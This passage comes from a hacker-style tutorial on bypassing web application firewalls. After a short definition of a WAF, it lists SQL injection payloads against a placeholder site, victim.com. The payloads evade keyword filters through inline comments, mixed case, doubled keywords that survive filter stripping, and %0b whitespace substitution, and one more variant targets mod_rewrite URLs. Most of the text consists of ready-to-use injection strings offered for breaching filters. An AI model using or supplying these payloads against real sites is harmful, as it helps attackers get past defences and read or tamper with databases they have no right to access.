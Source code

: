 

########################################
 [0x02] - Normally Bypassing Techniques
########################################

	In this section, we mention about the techniques to bypass Web Application Firewall (WAF). First thing you need to know what's WAF?
	
	A web application firewall (WAF) is an appliance, server plugin, or filter that applies a set of rules to an HTTP conversation. 
Generally, these rules cover common attacks such as Cross-site Scripting (XSS) and SQL Injection. By customizing the rules to your application, 
many attacks can be identified and blocked. The effort to perform this customization can be significant and needs to be maintained as the application is modified.
	WAFs are often called 'Deep Packet Inspection Firewalls' coz they look at every request and response within the HTTP/HTTPS/SOAP/XML-RPC/Web service lacers.
Some modern WAF systems work both with attack signatures and abnormal behavior.

	Now Let's rock to understand How to breach it with obfuscate, All WAFs can be bypassed with the time to understand their rules or using your imagination !!

	
	1. Bypass with Comments

		SQL comments allow us to bypass a lot of filtering and WAFs.
	
		[Code]---------------------------------------------------------------		
		http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--
		[End Code]-----------------------------------------------------------


	2. Case Changing

		Some WAFs filter only lowercase SQL keyword.	

		Regex Filter: /union\sselect/g
	
		[Code]---------------------------------------------------------------		
		http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--
		[End Code]-----------------------------------------------------------


	3. Replaced keywords

		Some application and WAFs use preg_replace to remove all SQL keyword. So we can bypass easily.	
	
		[Code]---------------------------------------------------------------		
		http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--
		[End Code]-----------------------------------------------------------

		Some case SQL keyword was filtered out and replaced with whitespace. So we can use "%0b" to bypass.

		[Code]---------------------------------------------------------------		
		http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--
		[End Code]-----------------------------------------------------------

		For Mod_rewrite, Comments "/**/" cannot bypassed. So we use "%0b" replace "/**/".

		Forbidden: http://victim.com/main/news/id/1/**/||/**/lpad(first_name,7,1).html
		Bypassed : http://victim.com/main/news/id/1%0b||%0blpad(first_name,7,1).html
	